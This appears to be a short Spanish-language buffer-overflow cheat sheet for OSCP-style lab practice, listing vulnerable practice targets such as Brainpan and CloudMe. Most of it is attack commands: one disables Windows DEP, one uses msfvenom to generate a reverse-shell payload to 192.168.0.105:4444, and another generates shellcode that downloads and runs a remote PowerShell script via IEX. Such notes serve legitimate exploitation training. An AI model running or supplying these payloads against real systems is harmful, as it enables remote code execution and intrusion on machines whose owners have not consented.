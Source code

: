 
## Desactivar DEP
```
bcdedit.exe /set {current} nx AlwaysOff
```

## BYTEARRAY
```pip install badchars```
```badchars -f python```

## SHELLCODE
#### cmd
```msfvenom -p windows/shell_reverse_tcp lhost=192.168.0.105 lport=4444 EXITFUNC=thread -a x86 --platform windows -b "\x00" -f c```
#### Powershell
```msfvenom -p windows/exec CMD="powershell IEX(New-Object Net.WebClient).downloadString('http://192.168.0.105:8000/PS.ps1')" lhost=192.168.0.105 lport=4444 EXITFUNC=thread -a x86 --platform windows -b "\x00" -f c```

#### Idioma teclado
ES Spanish (United States)

-------

Brainpan                      -> Windows 7, XP sp3
VulnSever                     -> Windows 7, XP sp3
EasyRMtoMP3Converter2.7.3.700 -> Windows XP sp3
CloudMe                       -> Windows 7
oscp THM                      -> Windows 7, XP sp3
